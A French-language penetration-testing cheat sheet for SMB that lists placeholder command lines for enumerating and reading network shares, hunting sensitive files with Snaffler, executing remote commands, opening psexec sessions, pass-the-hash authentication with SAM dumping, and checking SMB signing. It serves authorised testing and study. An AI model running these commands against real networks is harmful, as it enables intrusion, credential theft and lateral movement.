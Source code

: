 # SMB

### Enumération des partages réseau

* Lister les partages réseau d'une machine de manière anonyme :

```
smbmap -d <DOMAIN.LOCAL> -u '' -p '' -H <IP>
```

```
smbmap -H <IP>
```

* Lister les partages réseau d'une machine avec des identifiants :

```
smbmap -u "username" -p "password" -H <IP>
```

```
smbmap -u "username" -p "<NT>:<LM>" -H <IP>
```

* Lister les partages réseau de machines hors d'un domaine :

```
cme smb <IP>/<MASK> -u <USER> -p <PASS> --shares
```

* Lister les partages réseau de machines présentent au sein d'un domaine :

```
smbclient -L //<IP> -U "<DOMAIN.LOCAL>/<USERS%<PASS>"
```

### Lecture d'un partage

```
smbmap -R <REPERTOIRE> -H <IP> -A <file> -q
```

```
smbclient \\\\<IP>\\<SHARE> -U "<DOMAIN.LOCAL>/<USER>%<PASS>"
```

`ls` : lister le contenu du répertoire.

`cd` : naviguer dans le répertoire.

`get` : télécharger un fichier localement.

**Note :** _il est également possible d'accéder aux partages via l'explorateur de fichier avec le protocole `smb://`._

L'outil `snaffler` peut être utilisé pour automatiser la lecture des partages réseau. De plus, il remonte des informations potentiellement sensibles :&#x20;

```
Snaffler.exe -s -o Snaffler-result.txt
```

### Exécuter des commandes système

Il est possible d'utiliser l'option `-x` de l'outil `smbmap` pour exécuter des commandes système.

### Connexion distante

* Avec des identifiants :

```
psexec.py <DOMAIN.LOCAL>/<USER>:<PASS>@<IP>
cme smb <IP> -u '<USER>' -p '<PASSWORD>' --local-auth
```

* Avec un _hash_ (Pass The Hash):

```
cme smb -u <USER> -H <HASH> --sam <IP>/<MASK>
```

**Note :** _l'utilisateur doit disposer des droits "Administrateur local"._

### Signatures SMB

```
cme smb <IP>
```
